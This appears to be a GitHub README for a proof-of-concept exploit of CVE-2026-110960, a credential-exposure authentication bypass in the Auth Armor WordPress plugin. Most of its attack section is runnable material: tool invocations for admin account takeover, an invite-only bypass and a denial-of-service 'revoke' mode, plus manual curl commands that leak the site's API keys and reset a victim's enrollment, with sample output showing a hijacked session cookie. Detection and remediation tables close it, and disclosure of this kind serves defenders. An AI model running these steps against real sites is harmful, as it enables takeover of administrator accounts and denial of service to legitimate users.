

<div align="center">

# CVE-2026-110960

### Auth Armor WordPress Plugin — Authentication Bypass via Credential Exposure


</div>

---

## Overview

The Auth Armor WordPress plugin exposes an unauthenticated endpoint that leaks the site's Auth Armor API credentials. With these credentials an attacker can reset any user's Auth Armor enrollment, then authenticate as that user without the mobile app by supplying any access token from their own account.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-110960 |
| **CVSS 3.1** | `9.8 Critical` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-287 (Improper Authentication) |
| **Affected** | Auth Armor WordPress plugin (all versions with API key exposure) |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

The plugin registers a public REST endpoint that returns the site's Auth Armor `client_id` and `client_secret`. With these credentials an attacker:

1. **Leaks** the site's Auth Armor API key pair from the unauthenticated endpoint
2. **Resets** a target user's Auth Armor enrollment using the leaked credentials
3. **Logs in** using the standard Auth Armor flow — attacker controls the enrolled device
4. **Captures** the WordPress session cookie for the impersonated account

No prior knowledge of a password is required. The attack works against any account that uses Auth Armor as its authentication method, including administrators.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing on sites you own. This PoC performs account takeover.

### Setup

```bash
pip install -r requirements.txt
# requirements: requests
```

### Full exploit — target a WordPress admin account

```bash
python3 poc.py -u https://blog.example.com -a admin
```

Expected output — vulnerable site:
```
[*] target: https://blog.example.com
[+] Auth Armor plugin detected
[+] API credentials leaked: client_id=aa_live_*** client_secret=***
[*] resetting enrollment for account: admin
[+] enrollment reset successful
[*] re-enrolling with attacker device...
[+] access_token obtained
[*] authenticating to WordPress as admin...
[+] VULNERABLE — authenticated as: admin
[+] session written to cookies.txt
    curl -b cookies.txt https://blog.example.com/wp-admin/
```

### Use a captured access token manually

```bash
python3 poc.py -u https://blog.example.com -a admin --access-token YOUR_TOKEN
```

### Invite-only mode (bypass invite requirement)

```bash
python3 poc.py -u https://blog.example.com -a admin --invite-only
```

### Revoke another account's enrollment (DoS)

```bash
python3 poc.py -u https://blog.example.com -a victim_user --mode revoke
```

### Available flags

| Flag | Description |
|---|---|
| `-u URL` | WordPress site base URL (required) |
| `-a USERNAME` | Target WordPress username |
| `--access-token TOKEN` | Use a pre-obtained Auth Armor access token |
| `--invite-only` | Bypass invite-only enrollment restriction |
| `--mode exploit\|revoke` | Operation mode (default: `exploit`) |
| `--proxy URL` | HTTP proxy for Burp Suite integration |

### Manual curl reproduction

```bash
# Step 1: Leak API credentials
curl -s "https://blog.example.com/wp-json/auth-armor/v1/settings" | python3 -m json.tool

# Step 2: Reset enrollment (use leaked client_id/client_secret)
curl -X POST "https://api.autharmor.com/v3/users/admin/authenticators" \
  -H "Authorization: Bearer <obtained_token>" \
  -d '{"authenticator_type":"all"}'
```

### Expected output — patched site

```
[*] target: https://blog.example.com
[+] Auth Armor plugin detected
[-] /wp-json/auth-armor/v1/settings returns HTTP 403 — credentials not exposed
[+] NOT vulnerable
```

---

## Detection

| Indicator | Notes |
|---|---|
| GET `/wp-json/auth-armor/v1/settings` from unknown IP | Plugin should require `manage_options` capability |
| Auth Armor enrollment reset for admin account | Auth Armor admin portal → User activity logs |
| New device enrolled for existing account | Auth Armor push notification to legitimate user |

---

## Impact

Full account takeover. An attacker who takes over an administrator account can install plugins, edit themes, and achieve Remote Code Execution.

---

## Remediation

| Action | Detail |
|---|---|
| Update plugin | Apply vendor patch that restricts settings endpoint to authenticated admins |
| Rotate API keys | Generate new Auth Armor client_id/client_secret from the admin portal |
| Audit enrollments | Check all Auth Armor user enrollments for unexpected devices |
| Monitor REST endpoints | Alert on unauthenticated access to `/wp-json/auth-armor/` |

---

## References

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-110960
- Auth Armor: https://autharmor.com/

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.